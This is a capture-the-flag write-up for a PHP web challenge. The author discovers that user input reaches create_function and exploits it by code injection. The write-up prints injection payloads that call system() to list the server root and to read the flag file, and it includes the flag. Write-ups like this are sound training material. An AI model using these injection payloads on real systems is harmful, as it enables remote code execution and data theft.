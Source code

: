 # Challenge description

Ever since Claw's last encounter with the Inspector, he has been feeling very vindictive and angry. He hasn't even fed M.A.D. Cat correctly!

Thankfully, M.A.D. Cat knows their treats are stored in the nibbles directory!

Author: AtomicNicos
-----------------------------------------------------------

This challenge provides this page where we can only enter `echo "Hello World!";`

and anything else won't work

![image](https://user-images.githubusercontent.com/58823465/166170325-fb25173a-891f-4ef0-9770-7fdca2785a9f.png)

So trying different ways to break this i tried sending the code as an array, and bingo ! we get an interesting error 

![image](https://user-images.githubusercontent.com/58823465/166170340-16a43208-58d7-4a2d-b3df-31cc6915acde.png)

This means the "create_function" was used and this function can be exploited if the payload isn't sanitized, so we can inject arbitrary code and maybe get RCE !

More info about "create_function" code injection: 

-----------------------------------------------------------
https://www.exploit-db.com/exploits/32417

https://www.codetd.com/en/article/7175910
-----------------------------------------------------------

So using this payload we can get RCE 

``` code=1;}system(%27ls%20/%27);/* ``` 

![image](https://user-images.githubusercontent.com/58823465/166170373-0d777a68-fe58-4e97-bd07-55605fd3d9ae.png)


Next we just need to find the flag in the nibbles directory

```code=1;}system(%27cat%20./nibbles/flag.txt%27);/*```

``` Flag : DOCTF{G3TT1NG_RC3_(S0RRY_..._N1BBL3S)_1$_4LW4Y$_GR34T}  ```
